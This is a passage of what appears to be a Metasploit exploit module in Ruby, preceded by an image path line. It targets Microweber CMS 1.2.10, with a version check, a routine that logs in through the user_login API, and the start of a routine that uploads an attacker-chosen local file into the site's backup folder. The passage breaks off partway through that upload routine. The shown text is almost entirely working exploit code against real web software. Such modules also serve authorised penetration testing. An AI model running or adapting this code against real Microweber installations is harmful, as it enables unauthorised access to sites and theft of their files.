     if version == Rex::Version.new('1.2.10')
      print_good 'Microweber version ' + version.to_s
      return Exploit::CheckCode::Appears
    end

    print_error 'Microweber version ' + version.to_s

    if version < Rex::Version.new('1.2.10')
      print_warning 'The versions that are older than 1.2.10 have not been tested. You can follow the exploitation steps of the official vulnerability report.'
      return Exploit::CheckCode::Unknown
    end

    return Exploit::CheckCode::Safe
  end

  def try_login
    print_status 'Trying to log in.'
    res = send_request_cgi({
      'method' => 'POST',
      'keep_cookies' => true,
      'uri' => normalize_uri(target_uri.path, 'api', 'user_login'),
      'vars_post' => {
        'username' => datastore['USERNAME'],
        'password' => datastore['PASSWORD'],
        'lang' => '',
        'where_to' => 'admin_content'
      }
    })

    if res.nil?
      fail_with(Failure::Unreachable, 'Log in request failed.')
    end

    if res.code != 200
      fail_with(Failure::Unknown, res.body)
    end

    json_res = res.get_json_document

    if !json_res['error'].nil? && json_res['error'] == 'Wrong username or password.'
      fail_with(Failure::BadConfig, 'Wrong username or password.')
    end

    if !json_res['success'].nil? && json_res['success'] == 'You are logged in'
      print_good 'You are logged in.'
      return
    end

    fail_with(Failure::Unknown, 'An unknown error occurred.')
  end

  def try_upload
    print_status 'Uploading ' + datastore['LOCAL_FILE_PATH'] + ' to the backup folder.'

    referer = ''
    if !datastore['VHOST'].nil? && !datastore['VHOST'].empty?
      referer = "http#{datastore['SSL'] ? 's' : ''}://#{datastore['VHOST']}/"
    else
      referer = full_uri
    end

